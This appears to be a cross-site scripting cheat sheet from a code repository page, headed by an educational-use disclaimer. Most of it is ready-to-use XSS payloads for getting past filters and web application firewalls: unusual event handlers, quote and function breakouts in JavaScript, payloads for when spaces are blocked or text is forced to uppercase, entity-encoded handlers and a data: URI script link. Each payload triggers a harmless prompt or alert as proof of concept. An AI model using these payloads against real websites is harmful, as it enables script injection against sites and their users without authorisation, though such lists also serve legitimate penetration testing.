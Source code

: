 Warning
==============

All the information provided on this site is for educational purposes only.

The site or the authors are not responsible for any misuse of the information.

You shall not misuse the information to gain unauthorized access and/or write malicious programs.

These information shall only be used to expand knowledge and not for causing malicious or damaging attacks.

Did you break out of a tag and script, iframe, img, a, &gt; etc are all blocked?
==============

Did they block onerror onload onclick? Try something like this:
```html
<XXXXXXX ondblclick=prompt(1)>Some Text, Don't even care to end the tag either.
```
If you just need to break out for Proof of Concept and can't use a > to close your tag, this will utilize the " in your injection.
```html
" onclick="prompt(1)
```
WAF got you down?
```html
<body onpageshow="prompt(123)">
<details open ontoggle="prompt('xss via toggle')">Toggle Me For More prompts</details>
<video onmouseenter=prompt(123)>
```

Don't forget the injection might not be a form tag but in the javascript.
==============
```javascript
";prompt(1);//

';prompt(1);//
```

What if they are in a function? Break out of it. Count the brackets, etc to kill the function.
```javascript
"};prompt(1);//
```
You may need to reconstruct the function
```javascript
"};prompt(1);function whatever(){//
```

Don't forget %0D%0A if you need a new line

Obscure Breakout
==============
```html
a'*prompt(123)*'
```
Event Handlers You Should Investigate to bypass WAF
==============
https://www.w3.org/TR/html52/single-page.html

When you can't use spaces
==============
```html
<details/open/ontoggle=prompt(123)>
```
When the text is forced UPPERCASE
==============
```html
<IMG SRC=1 ONERROR=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>
```
Just for fun
==============
```html
<a/href="data:text/html;charset=utf-8,<script>alert(123)</script>">Just Interesting</a>
```
